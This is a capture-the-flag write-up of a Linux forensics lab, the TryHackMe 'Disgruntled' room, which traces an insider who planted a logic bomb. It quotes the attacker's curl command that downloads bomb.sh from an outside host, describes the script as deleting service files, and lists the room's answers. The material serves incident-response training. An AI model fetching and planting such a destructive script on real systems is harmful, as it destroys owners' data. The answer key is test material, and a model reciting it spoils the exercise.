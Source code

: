 #Subscribers 
https://tryhackme.com/room/disgruntled


Hey, kid! Good, you’re here!

Not sure if you’ve seen the news, but an employee from the IT department of one of our clients (CyberT) got arrested by the police. The guy was running a successful phishing operation as a side gig.

CyberT wants us to check if this person has done anything malicious to any of their assets. Get set up, grab a cup of coffee, and meet me in the conference room.


Here’s the machine our disgruntled IT user last worked on. Check if there’s anything our client needs to be worried about.

My advice: Look at the privileged commands that were run. That should get you started.

```
cat /var/log/auth.log | grep install
cat /var/log/auth.log | grep admin
```

```
The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND? (Check the sudo execution history.)

/usr/bin/apt install dokuwiki

What was the present working directory (PWD) when the previous command was run?

/home/cybert
```

Keep going. Our disgruntled IT was supposed to only install a service on this computer, so look for commands that are unrelated to that.

```
Which user was created after the package from the previous task was installed?  (Look for the "adduser" command in the logs.)

it-admin

A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS) (The "visudo" is called when editing the /etc/sudoers file. Look for this command in the logs.)

Dec 28 06:27:34

A script file was opened using the "vi" text editor. What is the name of this file?

bomb.sh

```


That `bomb.sh` file is a huge red flag! While a file is already incriminating in itself, we still need to find out where it came from and what it contains. The problem is that the file does not exist anymore.

```
The command was run by a different user account. Look at the ".bash_history" found in the user's home directory.
What is the command used that created the file bomb.sh?

curl 10.10.158.38:8080/bomb.sh --output bomb.sh

The vi text editor can edit and save files to a different location. Check out the history of vi by looking for ".viminfo".
The file was renamed and moved to a different directory. What is the full path of this file now?

/bin/os-update.sh

Go to the file location and use the "ls -al --full-time" command.
When was the file from the previous question last modified? (Format: Month Day HH:MM)

Dec 28 06:29

Open the malicious file and figure out the answer from the code.
What is the name of the file that will get created when the file from the first question executes?


goodbye.txt

```

So we have a file and a motive. The question we now have is: how will this file be executed?
Surely, he wants it to execute at some point?

```
Check out the crontab and convert the schedule expression using a site like https://crontab.guru/.

At what time will the malicious file trigger? (Format: HH:MM AM/PM)

08:00 AM
```


Thanks to you, we now have a good idea of what our disgruntled IT person was planning.

We know that he had downloaded a previously prepared script into the machine, which will delete all the files of the installed service if the user has not logged in to this machine in the last 30 days. It’s a textbook example of a  “logic bomb”, that’s for sure.

Look at you, second day on the job, and you’ve already solved 2 cases for me. Tell Sophie I told you to give you a raise.


https://motasem-notes.net/cyber-incident-investigation-with-linux-forensics-tryhackme-disgruntled/



https://www.youtube.com/watch?v=UGiP02jWB10



![[Pasted image 20250317172007.png]]

300 points 

![[Pasted image 20250317172033.png]]

















